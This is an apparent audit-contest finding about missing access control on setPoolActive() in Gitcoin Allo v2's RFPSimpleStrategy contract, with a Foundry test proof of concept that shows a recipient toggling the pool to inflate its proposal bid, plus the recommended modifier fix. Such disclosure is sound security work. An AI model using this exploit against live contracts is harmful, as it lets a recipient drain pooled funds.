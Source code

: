 Recumbent Citron Mustang

high

# No access control on `setPoolActive()` can result last minute change of proposal bid

The function [`setPoolActive()`](https://github.com/sherlock-audit/2023-09-Gitcoin/blob/6430c8004017e96ae2f5aac365bdefd0b6eeea72/allo-v2/contracts/strategies/rfp-simple/RFPSimpleStrategy.sol#L219) in the RFPSimpleStrategy contract lacks access control allowing anyone to set `poolActive` to `true` or `false`.

## Vulnerability Detail

Each strategy inherit the [`baseStrategy`](https://github.com/sherlock-audit/2023-09-Gitcoin/blob/6430c8004017e96ae2f5aac365bdefd0b6eeea72/allo-v2/contracts/strategies/BaseStrategy.sol#L30) contract which has a private variable `poolActive`.

In the RFPSimpleStrategy, this variable determine if registering is still open or if we can pick a `recipient` as well as distribute or withdraw funds. By not putting an access control on the `setPoolActive()` function, it allows any user to temporarly disable some functions of the contract as well as being able to register even if the `reicipient`has been set.

Because we can still register, it means an accepted recipient could increase its proposal bid right before the pool manager distribute rewards for a milestone, thus earning more than he was supposed to be. Max being the `poolAmount`.

## Impact

High. 
- Can temporarily disable some functions of the contract and make calls revert.
- The accepted recipient could frontrun the `distribute()` call by the pool manager and update its `proposalBid` to receive more tokens.

## Code Snippet

Here is a POC that can be copy pasted in the RFPSimpleStrategy test file.

```solidity
function test_update_recipient_proposalBid() public {
        //Fund pool with 2 ether
        vm.deal(pool_admin(), 2 ether);
        vm.prank(pool_admin());
        allo().fundPool{value: 2 ether}(poolId, 2 ether);

        //register with 1e17 wei and allocate to a recipient
        address sender = recipient();
        Metadata memory metadata = Metadata({protocol: 1, pointer: "metadata"});

        bytes memory data = abi.encode(recipientAddress(), false, 1e17, metadata);
        vm.prank(address(allo()));
        address recipientId = strategy.registerRecipient(data, sender);
        __setMilestones();
        vm.prank(address(allo()));
        strategy.allocate(abi.encode(recipientId), address(pool_admin()));

        //pool is now active = false and we got accepted as recipient
        IStrategy.Status recipientStatus = strategy.getRecipientStatus(recipientId);
        assertEq(uint8(recipientStatus), uint8(IStrategy.Status.Accepted));
        assertEq(strategy.isPoolActive(), false);

        //anyone can set pool active
        vm.prank(makeAddr("not_pool_manager"));
        strategy.setPoolActive(true);

        //update the recipient with a higher proposalBid
        metadata = Metadata({protocol: 1, pointer: "metadata"});

        //increase from 1e17 to 1e18 wei our proposal bid
        data = abi.encode(recipientAddress(), false, 1e18, metadata);
        vm.prank(address(allo()));
        recipientId = strategy.registerRecipient(data, sender);

        //set pool back to false so distribute don't revert
        vm.prank(makeAddr("not_pool_manager"));
        strategy.setPoolActive(false);

        //distribute
        vm.prank(address(allo()));
        strategy.distribute(new address[](0), "", pool_admin());
    }
```

## Tool used

Manual Review

## Recommendation

Add `onlyPoolManager(msg.sender)` modifier to the function.